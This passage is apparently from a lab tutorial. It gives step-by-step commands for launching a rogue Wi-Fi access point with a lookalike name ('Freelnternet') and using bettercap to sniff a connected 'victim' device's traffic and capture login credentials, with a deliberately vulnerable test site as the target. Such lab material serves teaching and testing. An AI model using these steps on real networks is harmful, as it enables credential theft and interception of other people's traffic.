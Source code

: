 - Launch the rogue access point:

   ```bash
   create_ap <wireless-interface> eth0 Freelnternet
   ```

   (Replace `<wireless-interface>` with your wireless interface)

- On your mobile device, connect to the Freelnternet access point.

- Capture traffic from the victim's device:
   ```bash
   sudo bettercap -X -I <wireless-interface> -S NONE --proxy --no-discovery
   ```
   - `-X`: Sniffing enabled
   - `-I`: Interface specified
   - `-S`: ARP spoofing set to NONE
   - `--proxy`: HTTP proxy enabled
   - `--no-discovery`: Disable client discovery

- Observe captured traffic, switch to the mobile device, and browse a website (e.g., http://testphp.vulnweb.com/login.php).

- Return to the terminal running Bettercap. Captured credentials will be displayed.

**Note**
- Ensure the victim's device connects to the Freelnternet access point.
- For HTTPS websites, configure Bettercap accordingly.